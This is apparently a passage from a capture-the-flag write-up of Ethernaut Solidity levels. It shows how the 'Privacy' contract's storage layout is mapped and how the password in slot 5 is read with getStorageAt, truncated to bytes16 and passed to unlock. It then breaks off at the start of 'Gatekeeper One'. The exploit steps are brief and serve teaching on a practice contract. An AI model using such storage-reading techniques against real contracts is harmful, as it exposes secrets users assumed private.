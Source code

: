 --------
**Analysis**

![Privacy storage](https://res.cloudinary.com/dsdvvwb8v/image/upload/v1659138026/ff541ef577bf0b185d9bd2266bc82b7cef5b80e9c30195d89a0ba04fb1f9e21e_sfqspe.png)  

As we said before, every variable in the storage can be accessed all we have to do is find which slot it's residing in. Same applies here.

We got the following:

```js
// [0] bool locked
// [1] uint256 ID
// [2]      awkwardness | denomination | flattening
// arrays start always in a new slot 
// [3] bytes32 data[0]
// [4] bytes32 data[1]
// [5] bytes32 data[2]
```

-----
**Exploitation**

We know the position of the password . We can unlock the contract. 

```js
await contract.getStorageAt(INSTANCE_ADDRESS,5);
/// We can manually extract the least significant 16 bytes or simply write a util contract like below
```

```js
contract Utils { 
    function get16Bytes(bytes32 value) public returns (bytes16) {
        return bytes16(value);
    }
}
```

```js
await contract.unlock(Returned_Value);
```

Challenge solved ✅

## Gatekeeper One

This challenge gave me hard time, two days to solve it but I learnt a lot during those days.

**Challenge description**

Make it past the gatekeeper and register as an entrant to pass this level.

--------
**Analysis**

Okay so we got three modifiers, each one represents a `barrier` we need to break through. I will be going through each modifier one by one.
